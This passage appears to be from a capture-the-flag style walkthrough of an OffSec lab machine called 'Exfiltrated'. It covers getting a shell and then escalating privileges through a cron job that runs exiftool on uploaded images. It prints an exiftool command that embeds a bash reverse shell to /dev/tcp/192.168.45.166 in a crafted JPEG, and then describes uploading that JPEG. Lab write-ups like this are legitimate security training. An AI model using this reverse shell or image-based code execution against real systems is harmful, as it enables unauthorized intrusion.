

Then try to use this exploit.



That's successful. Use `Python3` to reverse shell.



Then get shell.



# PE

## Information Collection

### Basic information



### Cron job


## Useful software



Check the cronjob script file.

```bash
www-data@exfiltrated:/tmp$ cat /opt/image-exif.sh
cat /opt/image-exif.sh
#! /bin/bash
#07/06/18 A BASH script to collect EXIF metadata 

echo -ne "\\n metadata directory cleaned! \\n\\n"


IMAGES='/var/www/html/subrion/uploads'

META='/opt/metadata'
FILE=`openssl rand -hex 5`
LOGFILE="$META/$FILE"

echo -ne "\\n Processing EXIF metadata now... \\n\\n"
ls $IMAGES | grep "jpg" | while read filename; 
do 
    exiftool "$IMAGES/$filename" >> $LOGFILE 
done

echo -ne "\\n\\n Processing is finished! \\n\\n\\n"
```

Use [JPEG_RCE](https://github.com/OneSecCyber/JPEG_RCE) to generate a malicious reverse shell rce jpg file.

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/Exfiltrated]                                 
└─$ git clone https://github.com/OneSecCyber/JPEG_RCE.git                                                                                     
┌──(aaron㉿aacai)-[~/Desktop/pg/Exfiltrated]                                                                          
└─$ cd JPEG_RCE
┌──(aaron㉿aacai)-[~/Desktop/pg/Exfiltrated/JPEG_RCE]       
└─$ ls                                                                                                              
eval.config  POC.mp4  README.md  runme.jpg                                        
┌──(aaron㉿aacai)-[~/Desktop/pg/Exfiltrated/JPEG_RCE]                                                               
└─$ mousepad eval.config                                                  
┌──(aaron㉿aacai)-[~/Desktop/pg/Exfiltrated/JPEG_RCE]
└─$ exiftool -config eval.config runme.jpg -eval='system("bash -c \"bash -i >& /dev/tcp/192.168.45.166/80 0>&1\"")'
    1 image files updated                                                        
┌──(aaron㉿aacai)-[~/Desktop/pg/Exfiltrated/JPEG_RCE]                                                               
└─$ ls                                                                                                              
eval.config  POC.mp4  README.md  runme.jpg  runme.jpg_original
```



Then upload the jpg to http://exfiltrated.offsec/panel/uploads/#elf_l1_Lw



Waiting for reverse shell.

